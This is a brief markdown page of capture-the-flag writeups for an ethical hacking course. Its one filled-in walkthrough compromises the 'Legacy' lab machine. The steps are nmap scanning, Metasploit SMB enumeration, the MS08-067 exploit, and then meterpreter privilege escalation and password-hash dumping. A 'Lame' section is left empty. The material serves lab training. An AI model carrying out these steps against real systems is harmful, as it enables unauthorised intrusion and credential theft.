 
<head>
<link rel="stylesheet" href="css/retro.css">
</head>

## Misc Writeups
----
### Summary

All systems covered in the section 12 'Mid-Course Capstone' (https://www.udemy.com/course/practical-ethical-hacking/learn/lecture/17398048#content)

----
#### Walkthrough - Legacy (Windows)
* nmap -A -T4 -p- 10.10.10.4
    * ports 139/145 are open (SMB)
* smbclient -L \\\\10.01.10.4\\ 
    * no connection
* msfconsole
    * search smb_version
    * use auxiliary/scanner/smb/smb_version
        * options: set rhosts 10.10.10.4
        * run / exploit
* Google 'smb windows xp sp3 exploit' 
    * https://www.rapid7.com/db/modules/exploit/windows/smb/ms08_067_netapi
* msfconsole 
    * use exploit/windows/smb/ms08_067_netapi
        * options: set rhosts 10.10.10.4
        * run
    * meterpreter shell
        * getuid
        * getsystem (priv escalation if not su)
        * hashdump (get be cracked offiline)
        * get CTFs     
---
####   Walkthrough - Lame ()


---

---
